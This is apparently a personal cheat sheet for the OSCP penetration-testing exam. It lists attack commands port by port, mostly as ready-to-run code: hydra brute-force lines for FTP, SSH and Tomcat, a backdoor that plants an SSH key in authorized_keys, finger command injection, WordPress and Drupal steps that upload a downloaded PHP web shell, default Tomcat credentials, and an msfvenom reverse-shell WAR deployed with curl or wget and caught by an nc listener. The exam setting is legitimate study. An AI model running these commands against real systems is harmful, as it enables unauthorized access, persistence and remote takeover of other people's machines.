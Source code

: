 # Welcome to Zamrax's Cheat Sheet for OSCP

## Enumeration:

1. nmapAutomator:
`nmapAutomator.sh -H IP -t All`
2. autorecon:
`autorecon IP`
3. nmap:
`nmap -T4 -A -p- IP`

## Port Enumeration:

### 21 (FTP):
1. Anonymous login is possible:
`ftp IP`
`ftp> USER anonymous`
`ftp> PASS `
2. View of FTP content:
`ftp://IP`
3. Get files from FTP:
`PASSIVE`
`BINARY`
`get FILE`
4. Upload files to FTP:
`PASSIVE`
`BINARY`
`put FILE`
5. Brute force:
`hydra -V -f -L USER_LIST -P /usr/share/wordlists/rockyou.txt ftp://IP -u -vV`
6. Vulnerability Scanning:
`nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN ftp IP`

### 22 (SSH)
1. Brute Force:
`hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://IP -u -vV`
2. Possible Exploit: CVE-2008-0166:
`searchsploit -m 5720`
3. Backdoor (might be worth it):
`
-> Attacker
ssh-keygen -f FILE
chmod 600 FILE
cat FILE.pub -> copy

-> Victim
echo FILE.pub >> PATH/.ssh/authorized_keys

-> Connect
ssh -i FILE USER@IP
`
4. Banner grab:
`ssh root@IP`

### 23 (Telnet)
1. Connect:
`telnet IP 23`

### 25 (SMTP)
1. Connect:
`nc IP 25`
2. User enumeration:
`VRFY USER`

### 43 (WHOIS)
1. Connection:
`whois -h IP -p PORT "domain.tld"`

### 53 (DNS)
1. Enumeration:
`dnsenum DOMAIN`
`dnsrecon -d DOMAIN`
`
nslookup
nslookup> server IP
nslookup> DOMAIN
`
2. Zone Transfer
`dnsrecon -d DOMAAIN -a`
`dig axfr DOMAIN @website`
3. DNS Brute force:
`https://github.com/blark/aiodnsbrute`

### 69 (TFTP)
1. Enumeration
`nmap -n -Pn -sU -p69 -sV --script tftp-enum IP`

### 79 (Finger)
1. User Enumeration
`finger IP`
`finger USER@IP`
2. Command execution:
`finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"`

### 80 & 443 (HTTP):
1. Enumeration:
`done by automatic scripts`
2. Directory Fuzzing:
- GoBuster:
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20`
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx`
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx --insecuressl`
(might have to use `-k` switch if HTTPS is not trustable)
- Dirbuster
`trivial`
(Do not forget to change file formats and supply correct directory list like above)
**Wordpress**
_Enumeration_
`# Scan
wpscan --rua -e --url IP/URL
# Brute force users/login
wpscan --rua --url IP/URL -P /usr/share/wordlists/rockyou.txt -U "USER,USER"`
_Theme RCE_
`
Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
`
_Plugin RCE_
Follow this [Link](https://medium.com/swlh/wordpress-file-manager-plugin-exploit-for-unauthenticated-rce-8053db3512ac)
**Drupal**
`droopescan scan -u IP/URL`
_User Enumeration_
`In /user/register just try to create a username and if the name is already taken it will be notified :
*The name admin is already taken*
If you request a new password for an existing username :
*Unable to send e-mail. Contact the site administrator if the problem persists.*
If you request a new password for a non-existent username :
*Sorry, test is not recognized as a user name or an e-mail address.*
Accessing /user/<number> you can see the number of existing users :
	- /user/1 -> Access denied (user exist)
	- /user/2 -> Page not found (user doesn't exist)`
_Hidden Pages Enumeration_
`wfuzz -c -z range,1-500 --hc 404 URL/node/FUZZ`
_Panel RCE_
`
You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)
Go to Modules -> (Check) PHP Filter  -> Save configuration
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
`
**Joomla**
_Enumeration_
`joomscan -u URL
./joomlavs.rb --url URL -a -v`
**Tomcat**
_Default Credentials_
`
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
`
_Brute Force_
`hydra -L USER_LIST -P /usr/share/wordlists/rockyou.txt -f IP http-get /manager/html -vV -u`
_Panel RCE_
`
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://USER:PASSWORD@IP:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u USER:PASSWORD -T shell.war 'http://IP:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -nvlp PORT

# Execute payload
curl http://IP:8080/shell/
`
